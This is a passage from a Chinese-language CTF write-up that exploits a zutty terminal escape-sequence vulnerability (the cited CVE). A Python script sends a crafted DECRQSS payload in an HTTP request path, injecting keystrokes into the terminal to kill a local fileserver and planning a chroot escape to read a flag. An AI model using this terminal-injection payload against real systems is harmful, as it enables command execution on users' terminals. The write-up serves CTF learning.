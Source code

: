 看来是 zutty。搜索“zutty vulnerability”，我们找到了 [CVE-2024-41138](https://bugs.gentoo.org/868495)，作者还给了一个附件用来复现：`cat` 这个附件就能让终端模拟器执行 `cat /etc/passwd`。

![the attachment content](_assets/image-27.png)

我们来分析一下结构。首先是 `"\x1bP$q\n"`，然后是要向终端中发送的东西，最后以 `"\n\x1b\\\n"` 结束。

众所周知，Ctrl-A 到 Ctrl-Z 在终端中分别对应于 ASCII 码 1 到 26。只要发送一个 `"\x03"`，就能直接向 fileserver 输入 Ctrl-C，让它自己关闭。

鉴于环境里有 Python，我们仿造 `server.py` 中的 `health_check`，写个发请求的程序传上去。**Windows 用户需要特别留意**，带有 shebang 的脚本换行符必须设置为 LF 而非 CRLF，否则 shebang 会被识别成 `"#!/usr/bin/python3\r"`，导致脚本无法执行。

```python
#!/usr/bin/python3

import time

evil_payload = "\x1bP$q\n\x03\x03\x03\n\x1b\\\n"
print(evil_payload)
# open("evil_payload.bin", "wb").write(evil_payload.encode('utf-8'))

import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.settimeout(2.0)

sock.connect(("127.0.0.1", 8000))

request = f"GET /{evil_payload} HTTP/1.1\r\nConnection: keep-alive\r\n\r\n"
sock.sendall(request.encode("utf-8"))
print(sock.recv(8192).decode(errors='ignore'))
sock.close()
# time.sleep(1)

sock.close()

print('Payload send finished')
```

_（这里发了三个 Ctrl-C，不过无伤大雅）_

但是没有用。经本地测试，这是因为 fileserver 只会输出请求的**第一行**，因此 payload 里不能有换行符，否则会被截断。怎么办呢？用 `"\r"` 可以吗？

```python
evil_payload = "\x1bP$q\r\x03\x03\x03\r\x1b\\\r"
```

_Flag 发出了尖锐的爆鸣声：Wait noooooooo! My blazing fast rust fileserver!_

_我还是喜欢你刚刚自信满满声称肯定安全的样子，能恢复一下吗？_

既然已经能关掉 fileserver 了，那肯定还能执行别的命令。注意到选手程序并没有运行在 `chroot` 下，所以接下来只需要在 payload 里用 Python 表演一个有 root 权限情况下的 [chroot 逃逸](https://github.com/yezhiyi9670/hackergame2022-writeup/blob/master/solution/solution-pure.md#26-%E7%9C%8B%E4%B8%8D%E8%A7%81%E7%9A%84%E5%BD%BC%E6%96%B9-300)，并将 `/flag2` 复制到 `/tmp/flag2` 就行了。
